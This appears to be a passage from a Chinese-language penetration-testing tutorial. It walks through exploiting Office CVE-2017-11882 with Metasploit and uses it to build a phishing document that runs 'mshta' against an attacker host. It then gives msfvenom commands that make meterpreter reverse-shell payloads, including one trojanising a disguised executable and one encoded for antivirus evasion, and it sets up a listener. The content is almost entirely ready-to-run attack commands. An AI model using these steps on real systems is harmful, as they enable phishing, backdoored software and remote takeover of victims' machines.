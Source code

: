 > 被动渗透攻击
>
> 以office2007-2016为例

下载利用脚本

```
┌──(ajest💋zh-CN)-[~/tools/office]
└─$ git clone https://github.com/starnightcyber/CVE-2017-11882.git
┌──(ajest💋zh-CN)-[~/tools/office]
└─$ cd CVE-2017-11882
┌──(ajest💋zh-CN)-[~/tools/office/CVE-2017-11882]
└─$ ls
Command_CVE-2017-11882.py example PS_shell.rb README.md
```

与MSF 联动

```
msf6 > use exploit/ajest/office_cve_2017_11882
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(ajest/office_cve_2017_11882) > set SRVPORT 80
SRVPORT => 80
msf6 exploit(ajest/office_cve_2017_11882) > set URIPATH /a
URIPATH => /a
msf6 exploit(ajest/office_cve_2017_11882) > run
```

生成钓鱼文档

```
┌──(ajest💋zh-CN)-[~/tools/office/CVE-2017-11882]
└─$ python Command_CVE-2017-11882.py -c "mshta http://10.9.69.77/a" -o 如何给女朋友过八十大寿.doc
[*] Done ! output file >> 如何给女朋友过八十大寿.doc <<
```

----

### msfvenom

可以利用msfvenom 生成ShellCode，形式多样，从多种编程语言到多平台，再到多种文件格式。简单来说就是生成“木马后门”。

```
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.9.69.77 lport=4444 -f exe -o payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.10.9 lport=4444 -x wecheat.exe -k -f exe -o wecheat.exe
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.9.69.77 lport=4444 -i 12 -e x86/shikata_ga_nai -f exe -o
payload.exe
```

开启msf 监听

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.10.9
LHOST => 10.10.10.9
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run
```
